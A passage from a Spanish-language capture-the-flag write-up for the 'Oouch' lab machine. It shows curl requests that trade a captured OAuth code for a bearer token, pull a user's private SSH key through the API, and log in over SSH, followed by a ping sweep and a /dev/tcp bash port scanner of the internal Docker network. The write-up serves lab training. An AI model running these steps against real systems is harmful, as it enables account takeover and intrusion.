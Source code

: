 Esto nos permite pedir un token de acceso a la api (auth server puerto 8000) ya que tenemos la cookie del qtc y el codigo:
```
└─$ curl http://authorization.oouch.htb:8000/oauth/token/ -d 'client_id=Cn55qW8DMDIvhWLkJLECtX0iJtNILk3WJgwiGmrA&client_secret=cwsC3srw1taHAvg0xnOMYHsSPyn8gas7ZrapAlMffMEIY1vygjkfAkPNarxwgE792gmt4temsYp1UF2u5AyEIinjMyR6zL8Di408gQyrS1tlO8B88ZGwlvw59O4Ltzwk&redirect_uri=http://10.10.14.16/test&code=fe7kjqU3BT9WIYeQ8DNQns5DTXxLR6&grant_type=authorization_code'
{"access_token": "7hOVKU8cCfq54uX3YhqMWBevyrD8Eg", "expires_in": 600, "token_type": "Bearer", "scope": "read", "refresh_token": "T6jt9EMTaFyeUoeSHHACdul2zG074X"} 

└─$ curl -s http://authorization.oouch.htb:8000/api/get_user -H "Authorization: Bearer 7hOVKU8cCfq54uX3YhqMWBevyrD8Eg"
{"username": "qtc", "firstname": "", "lastname": "", "email": "qtc@nonexistend.nonono"}

# Como decian en /Documents que era posible ver el ssh de otra persona...
└─$ curl -s http://authorization.oouch.htb:8000/api/get_ssh -H "Authorization: Bearer 7hOVKU8cCfq54uX3YhqMWBevyrD8Eg"
# La lalve privada de QTC
```

Le cambiamos los privilegios a ```chmos 660 id_rsa``` y podemos hacer ssh como qtc usando dicha lllave ```ssh -i id_rsa qtc@10.10.10.177```

------------------------------------------
# Part 5: Pivoting en el sistema

En nuestro /home hay una .note.txt (archivo oculto) que dice así:
```Implementando un IPS usando DBus e iptables == Genio?```
Si habla de iptables se referirá a lo de bloquear el intento de hackeo de la sección contact

ps -aux dice que:
```
\_ /usr/bin/docker-proxy -proto tcp -host-ip 0.0.0.0 -host-port 5000 -container-ip 172.18.0.4 -container-port 5000
\_ /usr/bin/docker-proxy -proto tcp -host-ip 0.0.0.0 -host-port 8000 -container-ip 172.18.0.5 -container-port 8000
```
Tambien hostname:
```console
qtc@oouch:/tmp$ hostname -I
10.10.10.177 172.17.0.1 172.18.0.1 dead:beef::250:56ff:feb9:134b 
```
Vamos a escenar toda la red (servidores y sus puertos)
```console
qtc@oouch:/tmp$ for i in {1..254}; do (ping -c 1 172.18.0.$i | grep "bytes from" | grep -v "unreachable"&); done;
64 bytes from 172.18.0.1: icmp_seq=1 ttl=64 time=0.082 ms
64 bytes from 172.18.0.2: icmp_seq=1 ttl=64 time=0.187 ms
64 bytes from 172.18.0.3: icmp_seq=1 ttl=64 time=0.096 ms
64 bytes from 172.18.0.4: icmp_seq=1 ttl=64 time=0.046 ms
64 bytes from 172.18.0.5: icmp_seq=1 ttl=64 time=0.063 ms
```
```
#!/bin/bash
ips=(172.18.0.1 172.18.0.2 172.18.0.3 172.18.0.4 172.18.0.5)
for ip in ${ips[@]}; do
    echo "Escaneando host: $ip"
    for port in $(seq 1 10000); do
        timeout 1 bash -c "(echo "" > /dev/tcp/$ip/$port) 2>/dev/null" && echo " > Port $port" &
    done; wait
done;
```
```console
Escaneando host: 172.18.0.1 # Puerto 21, 22, 5000 y 8000    -> maquina
Escaneando host: 172.18.0.2 # Puerto 3306 (sql)             -> base de datos
```